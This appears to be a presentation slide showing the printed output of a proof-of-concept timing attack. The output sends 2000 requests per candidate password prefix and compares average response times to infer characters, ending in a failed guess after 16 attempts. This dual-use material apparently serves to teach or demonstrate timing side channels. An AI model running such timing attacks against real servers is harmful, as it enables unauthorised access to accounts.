

# PoC Output
Guessing password begins with: 'a'
Sending 2000 requests to the server for the password 'aa'
Total time to make 2000 requests for 'a' was 96.5585160255 seconds.
Sending 2000 requests to the server for the password 'ab'
Total time to make 2000 requests for 'b' was 96.7385187149 seconds.
Sending 2000 requests to the server for the password 'ac'
Total time to make 2000 requests for 'c' was 96.581807375 seconds.
Sending 2000 requests to the server for the password 'ad'
Total time to make 2000 requests for 'd' was 96.8448004723 seconds.
Sending 2000 requests to the server for the password 'ae'
Total time to make 2000 requests for 'e' was 96.6286518574 seconds.
Average time per request for each password guess
a: 0.0482792580128
c: 0.0482909036875
e: 0.0483143259287
b: 0.0483692593575
d: 0.0484224002361
Guessing password begins with: 'ad'
'ad' != 'ab'
Number of failed timing attack attempts: 16